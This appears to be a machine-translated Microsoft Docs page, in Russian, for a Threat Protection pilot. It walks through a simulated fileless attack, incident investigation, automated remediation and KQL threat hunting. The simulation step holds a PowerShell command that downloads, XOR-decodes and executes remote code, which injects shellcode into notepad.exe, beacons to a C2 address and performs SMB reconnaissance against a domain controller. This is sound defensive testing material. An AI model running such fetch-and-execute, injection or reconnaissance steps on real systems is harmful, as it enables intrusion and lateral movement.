

# <a name="run-your-microsoft-threat-protection-attack-simulations"></a>Запуск эмуляции атак Майкрософт для защиты от угроз  

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


**Область применения:**
- Защита от угроз (Майкрософт)

После подготовки пилотной среды необходимо протестировать средства управления инцидентами защиты от угроз Майкрософт, а также автоматическое исследование и устранение проблем. Мы поможем вам имитировать сложную атаку, которая использует расширенные методы для скрытия определения. Атака перечисляет открытые сеансы SMB на контроллерах домена и получает последние IP-адреса устройств пользователей. В эту категорию атак обычно нет файлов, отброшенных на устройстве жертвы — они происходят только в памяти. Они «выходят с земли», используя существующие системы и средства администрирования и вводят свой код в системные процессы для скрытия их выполнения, позволяя им обнаруживать избежать и хранить их на устройстве.

В этой модели наш пример сценария начинается с скрипта PowerShell. Пользователь может принудиться выполнить сценарий. Или сценарий может выполняться с удаленного подключения к другому компьютеру из ранее инфицированного устройства — злоумышленник пытается переместиться позже в сети. Обнаружение этих сценариев может быть затруднительным, так как администраторы также часто запускают сценарии удаленно для выполнения различных административных действий.


Во время имитации атака внедряет шеллкоде в инноцент процесс. В этом случае мы будем использовать notepad.exe. Мы выбрали этот процесс для имитации, но злоумышленники, скорее всего, будут работать с длительным системным процессом, например svchost.exe. После этого шеллкоде будет обращаться к серверу командного и-управления злоумышленника, чтобы получить инструкции по выполнению этой процедуры. Кроме того, сценарий предпринимает попытку выполнения запросов реконнаиссанце к контроллеру домена (DC). Это позволяет злоумышленнику получить сведения о последних учетных данных пользователя. После получения этих сведений злоумышленники могут позднее переместиться в сети, чтобы получить доступ к определенной конфиденциальной учетной записи.

>[!IMPORTANT]
>Для достижения оптимальных результатов следуйте инструкциям по моделированию атак, как можно ближе.


## <a name="simulation-environment-requirements"></a>Требования к среде моделирования

Так как вы уже настроили пилотную среду на этапе подготовки, убедитесь, что у вас есть два устройства для этого сценария: тестовое устройство и контроллер домена.

1.  Убедитесь, что клиент имеет [защиту](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).
2.  Проверьте конфигурацию контроллера домена:
    - Устройство работает под управлением Windows Server 2008 R2 или более поздней версии.
    - Проверьте контроллер домена до службы [Advanced Threat Protection в Azure](https://docs.microsoft.com/azure/security-center/security-center-wdatp) и включите [Удаленное управление](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager).    
    - Убедитесь, что [Интеграция Azure ATP и Microsoft Cloud App Security](https://docs.microsoft.com/cloud-app-security/aatp-integration) включена.
    - В вашем домене создается тестовый пользователь — для него не требуются разрешения администратора.

3.  Проверьте конфигурацию тестового устройства.
    <br>
    а)  Устройство работает под управлением Windows 10 версии 1903 или более поздней версии.
    <br>
    б)  Тестовое устройство присоединяется к тестовому домену.
    <br>
    в.  [Включите антивирусную программу "Защитник Windows"](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). Если у вас возникают проблемы с включением антивирусной программы "Защитник Windows", обратитесь к [разделу Устранение неполадок](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).
    <br>
    г.  Убедитесь, что тестовое устройство подключено [к Advanced Threat Protection в защитнике Майкрософт (мдатп)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

Если вы используете существующий клиент и реализуете группы устройств, Создайте выделенную группу устройств для тестового устройства и надавите ее на самый верхний уровень в средстве настройки.


## <a name="run-the-simulation"></a>Запуск имитации

Чтобы запустить эмуляцию сценария атаки:

1.  Выполните вход на тестовое устройство с помощью тестовой учетной записи пользователя.

2.  Откройте окно Windows PowerShell на тестовом устройстве.

3.  Скопируйте следующий сценарий моделирования:
```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
= [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
-UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
$decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
$i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```
>[!NOTE]
>Если открыть этот документ в веб-браузере, могут возникнуть проблемы с копированием полного текста без потери определенных символов и появления лишних разрывов строк. Скачайте этот документ и откройте его в Adobe Reader.

4. В командной строки вставьте и запустите скопированный сценарий.

>[!NOTE]
>Если вы используете PowerShell с помощью протокола удаленного рабочего стола (RDP), используйте команду введите текст буфера обмена в клиенте RDP, так как сочетание клавиш **CTRL-V** или щелчок правой кнопкой мыши и вставки может не работать.  Последние версии PowerShell также не будут принимать этот метод, возможно, потребуется скопировать в "Блокнот" в памяти, скопировать его на виртуальную машину, а затем вставить в PowerShell.

В течение нескольких секунд после этого <i>notepad.exe</i> откроется. Код имитации атаки будет добавлен в notepad.exe. Чтобы использовать весь сценарий, оставьте автоматически созданный экземпляр Notepad.

Код имитации атаки будет пытаться установить соединение с внешним IP-адресом (имитацией сервера C2), а затем попытаться реконнаиссанце с контроллером домена через SMB.

При завершении этого сценария отображается сообщение в консоли PowerShell.

```
ran NetSessionEnum against [DC Name] with return code result 0      
```

Чтобы просмотреть функцию автоматического инцидента и реагирования в действии, оставьте notepad.exeный процесс открытым. Вы увидите автоматические инциденты и ответ, чтобы остановить процесс блокнота.


## <a name="investigate-an-incident"></a>Исследование инцидента

>[!NOTE]
>Прежде чем мы поможем вам пройти эту эмуляцию, просмотрите следующее видео, чтобы узнать, как управление инцидентами помогает отсоединить связанные оповещения в рамках процесса расследования, где вы можете найти его на портале и как он может помочь в операциях по обеспечению безопасности:

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

Переключитесь на точку аналитики SOC аналитика SOC, теперь можно приступить к анализу атак на портале центра обеспечения безопасности Microsoft 365. 

1.  Откройте очередь инцидентов [центра безопасности Microsoft 365](https://security.microsoft.com/incidents) с любого устройства.

2.  Перейдите к **инцидентам** из меню. 

    

3.  Новый инцидент для имитации атаки будет отображаться в очереди инцидентов.
 
    


### <a name="investigate-the-attack-as-a-single-incident"></a>Исследование атак как одного инцидента

Защита от угроз Майкрософт сопоставляет все связанные оповещения и расследования из разных продуктов в одну сущность инцидента. Таким образом, защита от угроз Майкрософт показывает более широкое описание атак, что позволяет аналитике SOC уяснить и реагировать на сложные угрозы.

Оповещения, созданные во время этой имитации, связаны с одной и той же угрозой и в результате автоматически объединяются как один инцидент.

Чтобы просмотреть инцидент, выполните следующие действия:

1.  Перейдите в очередь **инцидентов** .
 
    

2.  Выберите новый элемент, щелкнув окружность слева от имени инцидента. На боковой панели отображаются дополнительные сведения об инциденте, в том числе все связанные оповещения. Каждый инцидент имеет уникальное имя, которое описывает атрибуты оповещений, которые он содержит.

    

    Фильтрация оповещений, показанных на панели мониторинга, может осуществляться на основе ресурсов служб: Azure ATP, Microsoft Cloud App Security, Microsoft Defender ATP, Microsoft Threat Protection и Office ATP.  

3.  Чтобы получить дополнительные сведения об инциденте, выберите **страницу открыть инцидент** .

    На странице **инцидент** можно просмотреть все оповещения и сведения, связанные с инцидентом. Сюда входят сущности и активы, участвующие в оповещении, источник обнаружения оповещений (Azure ATP, ЕДР) и причина, по которой они были связаны друг с другом. Просмотр списка оповещений об инциденте показывает ход атаки. В этом представлении можно просматривать и изучать отдельные оповещения.

    Вы также можете выбрать пункт **Управление инцидентом** в меню справа, чтобы пометить инцидент, назначить его себе и добавить комментарии.

    

    


### <a name="review-generated-alerts"></a>Обзор созданных оповещений 

Давайте взглянем на некоторые оповещения, созданные при имитации атаки.

>[!NOTE]
>Мы рассмотрим только некоторые из оповещений, создаваемых во время имитации атаки. В зависимости от версии Windows и продуктов Майкрософт для защиты от угроз, запущенных на тестовом устройстве, вы можете увидеть больше оповещений, которые отображаются в незначительном порядке.

 


**Предупреждение: наблюдалось внедрение подозрительных процессов (Источник: пакет ATP для защитника Microsoft ЕДР)**

Опытные злоумышленники используют сложные и стеалси методы для сохранения памяти и скрытия средств обнаружения. Одной из распространенных способов является работа в надежном системном процессе, а не вредоносный исполняемый файл, что затрудняет для средств обнаружения и обеспечения безопасности вредоносный код.

Чтобы разрешить аналитикам SOC перехватывать эти улучшенные атаки, глубокие датчики памяти в защитнике Microsoft Defender обеспечивают облачную службу с непредусмотренным отображением различных способов встраивания кода между процессами. На следующем рисунке показано, как служба защитника Майкрософт обнаружила и предупреждать о попытке ввести код для <i>notepad.exe</i>.

 


**Предупреждение: неожиданное поведение, выполняемое процессом без аргументов командной строки (Source: ЕДР для защитника Майкрософт)**

Обнаружение ATP для защитника Майкрософт часто нацелено на наиболее распространенный атрибут приема атаки. Это гарантирует устойчивость и порождает отрезку, с помощью которой злоумышленники могут переключаться на более новые тактики.

Мы используем крупномасштабные учебные алгоритмы для установки нормального поведения распространенных процессов в Организации и во всем мире и следите за тем, когда эти процессы представляют невероятные последствия. Эти нетипичные действия часто указывают на то, что дополнительный код появился и работает в надежном для других процессах.

В этом сценарии в <i>notepad.exe</i> процесса используется ненормальное поведение, включающее связь с внешним расположением. Этот результат не зависит от конкретного метода, используемого для введения и выполнения вредоносного кода.

>[!NOTE]
>Так как это оповещение основано на моделях машинного обучения, требующих дополнительной внутренней обработки, может потребоваться некоторое время, прежде чем вы увидите это предупреждение на портале.

Обратите внимание на то, что сведения о предупреждении включают внешний IP-адрес — индикатор, который можно использовать в качестве сводной таблицы для разворачивания расследования.

Щелкните IP-адрес в дереве процессов оповещений, чтобы просмотреть страницу сведений об IP-адресе.

 

На следующем рисунке показана страница сведений о выбранном IP-адресе (щелкнув ссылку IP-адрес в дереве процесса оповещения).


**Предупреждение: реконнаиссанце пользователя и IP-адреса (SMB) (Источник: Azure ATP)**

Перечисление с помощью протокола SMB позволяет злоумышленникам получать последние сведения о входе пользователя, которые помогают им перемещаться позже через сеть для доступа к определенной конфиденциальной учетной записи.

В этом обнаружении оповещение инициируется, когда перечисление сеансов SMB выполняется для контроллера домена.

 


### <a name="review-the-device-timeline-microsoft-defender-atp"></a>Просмотр временной шкалы устройства [защитник Майкрософт ATP]
После изучения различных оповещений в этом инциденте вернитесь к странице инцидент, который вы ранее проучили. Перейдите на вкладку **Devices (устройства** ) на странице "инцидент", чтобы просмотреть устройства, участвующие в этом инциденте, в соответствии с отчетом Microsoft Defender ATP и Azure ATP.

Щелкните имя устройства, на котором была выполнена атака, чтобы открыть страницу сущностей для этого конкретного устройства. На этой странице вы можете видеть оповещения, которые были активированы и связанные с ними события.

Перейдите на вкладку **временная** шкала, чтобы открыть временную шкалу устройства и просмотреть все события и поведения, обнаруженные на устройстве в хронологическом порядке, с обработкой оповещений.

 

Расширяя некоторые из более интересных поведений, вы предоставляете полезные сведения, такие как деревья процессов.

Например, прокрутите окно вниз до тех пор, пока не найдете оповещение о **подозрительном внедрении процесса**. Щелкните **powershell.exe, добавленный в событие notepad.exe процесс** , расположенное ниже, чтобы отобразить полное дерево процессов для этого поведения в графе **сущностей события** в боковой области. При необходимости используйте панель поиска для фильтрации.


### <a name="review-the-user-information-microsoft-cloud-app-security"></a>Просмотр сведений о пользователе [Microsoft Cloud App Security]

На странице инцидент выберите вкладку **Пользователи** , чтобы отобразить список пользователей, участвующих в атаке. Таблица содержит дополнительные сведения о каждом пользователе, в том числе оценку **приоритета** для каждого пользователя.

Щелкните имя пользователя, чтобы открыть страницу профиля пользователя, на котором можно выполнить дальнейшее исследование. [Узнайте больше о том, как изучить рискованных пользователей](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify).
<br>


## <a name="automated-investigation-and-remediation"></a>Автоматическое исследование и защита
>[!NOTE]
>Прежде чем мы поможем вам пройти эту эмуляцию, просмотрите следующее видео, чтобы узнать, что такое автоматическая самовосстановление, где его можно найти на портале и как это можно сделать в ваших операциях безопасности:

>[!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

Вернитесь к инциденту на портале Центра безопасности Microsoft 365. На вкладке " **расследования** " на странице **инцидент** отображаются автоматические расследования, инициированные Azure ATP и ЗАЩИТНИКОМ Майкрософт для пакета ATP. На снимке экрана ниже показано только автоматическое исследование, инициированное пакетом ATP для защитника Майкрософт. По умолчанию защитник Майкрософт автоматически исправлять артефакты, обнаруженные в очереди, требующие исправления.


Щелкните оповещение, которое инициировало исследование, чтобы открыть страницу " **сведения об расследовании** ". Вы увидите следующее:
- Оповещения, которые запускают автоматическое исследование.
- Затронутые пользователи и устройства. Если индикаторы находятся на дополнительных устройствах, эти дополнительные устройства также будут перечислены.
- Список свидетельств. Сущности, которые были найдены и проанализированы, такие как файлы, процессы, службы, драйверы и сетевые адреса. Эти сущности анализируются на возможные связи с оповещением и оцениваются как опасные или вредоносные.
- Обнаружены угрозы. Известные угрозы, обнаруженные во время расследования.

>[!NOTE]
>В зависимости от времени автоматическое исследование может по-прежнему выполняться. Подождите несколько минут, пока завершится сбор и анализ доказательств и изучите результаты. Обновите страницу **сведений об расследовании** , чтобы получить последние результаты.


Во время автоматического исследования служба Microsoft Defender ATP обнаружила notepad.exe процесс, который был добавлен в качестве одного из артефактов, требующих исправления. Защитник Майкрософт автоматически прерывает внедрение подозрительных процессов в рамках автоматизированного исправления. 

<i>notepad.exe</i> исчезнет из списка запущенных процессов на тестовом устройстве.

## <a name="resolve-the-incident"></a>Устранение инцидента

После завершения расследования и подтверждения исправления закройте инцидент.

Щелкните **Управление инцидентом**. Задайте для параметра состояние **разрешение инцидента** и выберите соответствующую классификацию.

После того как инцидент будет устранен, он закроет все связанные оповещения в центре безопасности Microsoft 365 и связанных с ним порталах.

 

<br>
Это включает имитацию атак для сценариев управления инцидентами и автоматического исследования и устранения проблем. Следующая имитация позволит вам пройти Поиск потенциально вредоносных файлов с помощью упреждающего Поиск угроз. 

## <a name="advanced-hunting-scenario"></a>Сценарий расширенного подпоиска

>[!NOTE]
>Прежде чем мы поможем вам выполнить имитацию, просмотрите следующее видео, чтобы узнать о расширенных концепциях поиска, узнать, где можно найти его на портале, и узнать, как она может помочь вам в операциях по обеспечению безопасности:

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a>Требования к среде подсистемы поискового сервера
Для этого сценария необходимо указать один внутренний почтовый ящик и устройство. Кроме того, вам потребуется внешняя учетная запись электронной почты, чтобы отправить тестовое сообщение.

1.  Убедитесь, что ваш клиент [включил защиту от угроз Майкрософт](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).
2.  Определите целевой почтовый ящик, который будет использоваться для получения электронной почты.
    а)  Этот почтовый ящик должен отслеживаться в Office 365 ATP b.  Устройству из требования 3 требуется доступ к этому почтовому ящику
3.  Настройка тестового устройства: a.  Убедитесь, что вы используете Windows 10 версии 1903 или более поздней версии.
    б)  Присоедините тестовое устройство к тестовому домену.
    в.  [Включите антивирусную программу "Защитник Windows"](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). Если у вас возникают проблемы с включением антивирусной программы "Защитник Windows", обратитесь к [разделу Устранение неполадок](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).
    г.  [Встроенный в Advanced Threat Protection в защитнике Майкрософт (мдатп)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

### <a name="run-the-simulation"></a>Запуск имитации
1.  С внешней учетной записи электронной почты отправьте сообщение электронной почты в почтовый ящик, определенный на этапе 2 раздела требования к тестовой среде. Включите вложение, которое будет разрешено с помощью существующих политик фильтрации электронной почты.  Этот файл не обязательно должен быть вредоносным или исполняемым файлом. Предложенные типы файлов: <i>PDF</i>, <i>exe</i> (если разрешено) или документ Office (например, файл Word).
2.  Откройте отправленную электронную почту с устройства, настроенного в шаге 3 раздела требования к тестовой среде. Либо откройте вложение, либо сохраните файл на устройстве.


**Поиск в поиске**
1.  Откройте портал security.microsoft.com.
2.  Перейдите к разделу Поиск **> расширенного**поиска.

     

3.  Создание запроса, который начинает сбор событий электронной почты.
    а)  В области запрос нажмите кнопку Создать.
    б)  Дважды щелкните таблицу Емаилевентс в схеме.

```
EmailEvents 
```                                        

   в.   Изменение временного кадра на последние 24 часа. При условии, что сообщение, отправленное при выполнении эмуляции выше, было изменено в течение 24 часов, в противном случае изменяется временной кадр.
    


   г.   Выполните запрос.  В зависимости от среды для пилотного проекта может быть много результатов.  

>[!NOTE]
>На следующем шаге показано, как можно ограничить количество возвращаемых данных.

    

>[!NOTE]
>При расширенном поиске отображаются результаты запроса в виде табличных данных. Вы также можете отказаться от просмотра данных в других типах форматов, таких как диаграммы.    

   д.   Просмотрите результаты и проверьте, можно ли определить открытое сообщение электронной почты.  Отображение сообщения в расширенном поиске может занять до 2 часов. Если среда электронной почты велика и существует много результатов, можно использовать **параметр Показать фильтры** , чтобы найти сообщение. 

   В этом примере сообщение электронной почты было отправлено с помощью учетной записи Yahoo. Щелкните **+** значок рядом с **Yahoo.com** в разделе сендерфромдомаин, а затем нажмите кнопку **Применить** , чтобы добавить выбранный домен в запрос.  Следует использовать домен или учетную запись электронной почты, которая использовалась для отправки тестового сообщения, на этапе 1 запуска имитации для фильтрации результатов.  Выполните запрос еще раз, чтобы получить меньший набор результатов, чтобы убедиться, что вы видите сообщение от имитации.
   
    


```
EmailEvents 
| where SenderMailFromDomain == "yahoo.com"
```

   е.   Щелкните строки, полученные в запросе, чтобы проверить запись.
    


4.  Теперь, когда вы убедитесь, что видите сообщение электронной почты, добавьте фильтр для вложений. Сосредоточьтесь на всех сообщениях электронной почты с вложениями в среде. Для этого сценария необходимо сосредоточиться на входящих сообщениях электронной почты, а не о сообщениях, отправляемых из вашей среды. Удалите все добавленные фильтры, чтобы нахождение сообщения и добавить "|" где **аттачменткаунт > 0** и **емаилдиректион**  ==  **"входящий"**

Приведенный ниже запрос показывает результат с более коротким списком, отличным от начального запроса для всех событий электронной почты:

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"

```

5.  Затем укажите сведения о вложении (например, имя файла, хэши) в наборе результатов. Для этого присоединитесь к таблице **емаилаттачментинфо** . Общие поля, используемые для присоединения, в данном случае — **нетворкмессажеид** и **реЦипиентобжектид**.

Следующий запрос также включает дополнительную строку "| **Project – Rename емаилтиместамп = timestamp**", который поможет определить, какая временная метка была связана с электронной почтой и отметками времени, связанными с действиями с файлами, которые вы добавите на следующем этапе.

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"
| project-rename EmailTimestamp=Timestamp 
| join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
```

6.  Затем используйте значение **SHA256** из таблицы **емаилаттачментинфо** , чтобы найти **девицефиливентс** (действия с файлами, которые произошли в конечной точке) для этого хеша.  Обычно это поле является хэшем SHA256 для вложения.

В полученной таблице теперь содержатся сведения о конечной точке (Microsoft Defender ATP), такие как имя устройства, какое действие было выполнено (в данном случае отфильтровано только для событий Филекреатед), а также место хранения файла. Также будет включено имя учетной записи, связанное с процессом.

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"
| project-rename EmailTimestamp=Timestamp 
| join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId 
| join DeviceFileEvents on SHA256 
| where ActionType == "FileCreated"
```

Теперь вы создали запрос, который будет определять все входящие сообщения электронной почты, в которых пользователь открыл или сохранил вложение. Вы также можете уточнить этот запрос, чтобы отфильтровать конкретные домены отправителей, размеры файлов, типы файлов и т. д.

7.  Функции — это особый тип объединения, позволяющий извлекать дополнительные данные TI о файле, например сведения о доходе, подписавшем и поставщике и т. д.  Чтобы получить дополнительные сведения о файле, используйте функцию **филепрофиле ()** в обогащении:

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"
| project-rename EmailTimestamp=Timestamp 
| join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
| join DeviceFileEvents on SHA256 
| where ActionType == "FileCreated"
| distinct SHA1
| invoke FileProfile()
```


**Создание обнаружения**

После создания запроса, указывающего сведения о том, что вы хотите **получать оповещения** в будущем, можно создать пользовательское определение из запроса. 

Пользовательские обнаружения запустит запрос в соответствии с заданной частотой, а результаты запросов будут создавать оповещения системы безопасности на основе затронутых ресурсов. Эти оповещения будут сопоставлены с происшествиями и их можно рассматривать как любое другое оповещение системы безопасности, созданное одним из продуктов.

1.  На странице запрос удалите строки 7 и 8, добавленные в шаге 7 инструкций поиска, и щелкните **создать правило обнаружения**. 
    
     

>[!NOTE]
>Если нажать кнопку **создать правило обнаружения** и в запросе имеются синтаксические ошибки, правило обнаружения не будет сохранено. Дважды проверьте запрос, чтобы убедиться в отсутствии ошибок. 


2.  Заполните обязательные поля, указав сведения, позволяющие группе безопасности определить оповещение, причину его создания и действия, которые предполагается выполнить. 

    

Убедитесь, что вы заполнили поля с помощью ясности, чтобы предоставить следующему пользователю информированное решение об этом уведомлении о правиле обнаружения 

3.  Выберите объекты, на которые влияет данное предупреждение. В этом случае выберите **устройство** и **почтовый ящик**.

    
 

4.  Определите, какие действия должны выполняться, если оповещение инициируется. В этом случае запустите проверку антивирусной программы, хотя могут быть предприняты другие действия. 

     

5.  Выберите область для правила оповещения. Так как этот запрос включает устройства, группы устройств важны в этом пользовательском определении в соответствии с контекстом ATP для защитника Майкрософт.  При создании настраиваемого обнаружения, которое не включает устройства в качестве затронутых сущностей, область действия не применяется.  

     

В этом пилотном проекте вы можете ограничить это правило подмножеством тестовых устройств в рабочей среде.

6.  Нажмите **Создать**. Затем выберите **Настраиваемые правила обнаружения** на панели навигации.
 
     

     

На этой странице можно выбрать правило обнаружения, которое будет открывать страницу сведений. 

 

### <a name="additional-advanced-hunting-walk-through-exercises"></a>Дополнительные упражнения с дополнительными руководствами по поиску

Чтобы узнать больше о расширенном поиске, в следующих веб-трансляциях вы узнаете о возможностях расширенного поиска в Microsoft Threat protection (MTP), чтобы создать запросы с перекрестными сведениями, Познакомьтесь с сущностями и Создайте настраиваемые обнаружения и действия по исправлению.

>[!NOTE]
>Подготовьтесь к работе с собственной учетной записью GitHub, чтобы выполнить поисковые запросы в испытательной тестовой среде.  

| **Название** | **Описание** | **Скачать MP4** | **Смотреть на YouTube** | **Используемый файл CSL** |
|:-----|:-----|:-----|:-----|:-----|
| Эпизод 1: базовые понятия KQL | Мы рассмотрим основные возможности расширенного обнаружения в Microsoft Threat protection. Сведения о доступных дополнительных данных по поиску и базовому синтаксису KQL и операторам. | [ MP4](https://aka.ms/MTP15JUL20_MP4) | [YouTube](https://youtu.be/0D9TkGjeJwM) | [Эпизод 1: файл CSL в Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl) |
| Эпизод 2: объединения | Мы будем продолжать изучать данные в расширенном поиске, а также как объединять таблицы. Узнайте о внутренних, внешних, уникальных и частичных соединениях, а также о том, какие особенности присоединяются к иннеруникуе по умолчанию Кусто. | [MP4](https://aka.ms/MTP22JUL20_MP4) | [YouTube](https://youtu.be/LMrO6K5TWOU) | [Эпизод 2: файл CSL в Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl) |
| Эпизод 3: сводка, сведение и визуализация данных|Теперь, когда мы можем отфильтровать данные, управлять ими и присоединяться к ним, настало время начать суммирование, количественное представление, сведение и визуализация. В этом эпизоде мы рассмотрим оператор суммирования и некоторые вычисления, которые вы можете выполнить, чтобы углубляться в дополнительные таблицы в расширенной схеме Поиск. Мы передаем наши наборы данных в диаграммы, которые могут помочь повысить эффективность анализа. | [MP4](https://aka.ms/MTP29JUL20_MP4) | [YouTube](https://youtu.be/UKnk9U1NH6Y) | [Эпизод 3: файл CSL в Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl) |
| Эпизод 4: Давайте добавим! Применение KQL к отслеживанию инцидентов|Время для отслеживания действий злоумышленника! В этом эпизоде мы будем использовать наш усовершенствованный обзор KQL и расширенного поиска в защите от угроз Майкрософт для отслеживания атак. Узнайте о некоторых советах и приемах, используемых в поле для отслеживания действий взломщика, в том числе АБКС циберсекурити и способов применения их к реагированию на инциденты. | [MP4](https://aka.ms/MTP5AUG20_MP4) | [YouTube](https://youtu.be/2EUxOc_LNd8) | [Эпизод 4: файл CSL в Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl) |

## <a name="next-step"></a>Следующий этап
| <br>[Этап закрытия и сводки](mtp-pilot-close.md) | Проанализируйте результаты пилотного проекта по защите от угроз Майкрософт, представим им заинтересованных лиц и выполните следующий шаг.
|:-----|:-----|

